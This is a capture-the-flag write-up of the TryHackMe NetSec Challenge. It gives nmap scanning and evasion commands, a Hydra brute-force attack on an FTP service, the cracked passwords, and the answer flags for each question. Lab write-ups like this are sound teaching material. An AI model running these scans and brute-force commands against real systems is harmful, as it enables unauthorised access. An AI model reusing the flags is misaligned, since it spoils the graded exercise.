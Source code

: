 # TryHackMe NetSec Challenge

URL: https://tryhackme.com/room/netsecchallenge

Description: Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can  be solved using only nmap, telnet, and hydra. 

Tags: Credential-brute-force, FTP, Firewall-evasion, Hydra

# TLDR: Attack chain

```bash
# Setup
export ip={target-ip}
ping $ip
# Scanning
sudo nmap -sS -p- $ip -T5 -v
sudo nmap -sS -Pn -p- $ip -T4 --min-rate=9001 -v
nmap -A -p 22,80,139,445,8080,10021 $ip
# Challenge in FTP
echo "eddie\nquinn\n" >> users.txt
hydra -t 16 -L users.txt -P /usr/share/wordlists/rockyou.txt $ip ftp -s 10021 -vV
ftp ftp://quinn:andrea@$ip:10021/
ls
get ftp_flag.txt
quit
cat ftp_flag.txt
# Challenge in port 8080
firefox http://$ip:8080
sudo nmap -sN -Pn $ip -v
```

## Creds found:

| Service | Username | Password |
| --- | --- | --- |
| FTP | quinn | andrea |
| FTP | eddie | jordan |

# Setup and Scanning

![Untitled](NetSec%20Challenge/Untitled.png)

![Untitled](NetSec%20Challenge/Untitled%201.png)

![Untitled](NetSec%20Challenge/Untitled%202.png)

---

# TryHackMe Basic Questions

Most are found through nmap scans 

## 1. What is the highest port number being open less than 10,000?

**Answer:** 8080 

## 2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

![Untitled](NetSec%20Challenge/Untitled%203.png)

**Answer:** 10021

## 3. How many TCP ports are open

**Answer:** 6

Server Header Flags 

![Untitled](NetSec%20Challenge/Untitled%204.png)

## 4. What is the flag hidden in the HTTP server header?

**Answer:**  THM{web_server_25352}

## 5. What is the flag hidden in the SSH server header?

**Answer:** THM{946219583339}

# TryHackMe FTP Challenge

## 6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

**Answer:** vsftpd 3.0.3

## 7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?

Trying default password does not work

### Using Hydra

```jsx
hydra -t 16 -L users.txt -P /usr/share/wordlists/rockyou.txt $ip ftp -s 10021 -vV -I
```

![Untitled](NetSec%20Challenge/Untitled%205.png)

![Untitled](NetSec%20Challenge/Untitled%206.png)

![Untitled](NetSec%20Challenge/Untitled%207.png)

### Credentials found:

- quinn:andrea
- eddie:jordan

### ftp flag

no files found in eddie’s account

![Untitled](NetSec%20Challenge/Untitled%208.png)

flag found in quinn’s account

![Untitled](NetSec%20Challenge/Untitled%209.png)

Getting the flag `get ftp_flag.txt`

**Answer:** THM{321452667098}

# TryHackMe Port 8080 Challenge

## 8. Browsing to `http://$ip:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?

![Untitled](NetSec%20Challenge/Untitled%2010.png)

Use null scan - `sudo nmap -sN -Pn $ip-v`

Exercise Complete! Task **Answer:** THM{f7443f99}